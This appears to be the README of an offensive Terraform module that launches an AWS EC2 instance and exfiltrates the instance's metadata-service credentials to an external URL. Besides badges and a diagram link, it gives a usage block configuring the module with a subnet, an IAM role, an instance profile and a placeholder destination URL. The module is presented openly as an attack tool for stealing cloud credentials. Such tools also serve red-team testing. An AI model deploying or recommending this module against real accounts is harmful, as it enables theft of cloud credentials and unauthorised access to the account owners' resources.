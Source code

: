 # AWS EC2 Instance Credential Exfiltration Module

![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-purple)
![OffensiveTerraform](https://img.shields.io/badge/hack-green)


Offensive Terraform module which creates EC2 instance and exfiltrate credential from Instance metadata to external URL.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-ec2-instance-credential-exfiltration/master/diagram.jpg)

## Usage
```
module "ec2_instance_credential_exfiltration" {
    source  = "offensive-terraform/ec2-instance-credential-exfiltration/aws"

    subnet_id = "subnet-0a4a1cc04"
    url = "http://0.0.0.0/
    iam_role= "ec2-instance-role"
    iam_instance_profile = "ec2-instance-profile"
}
```
## Author
Module managed by https://github.com/iganbold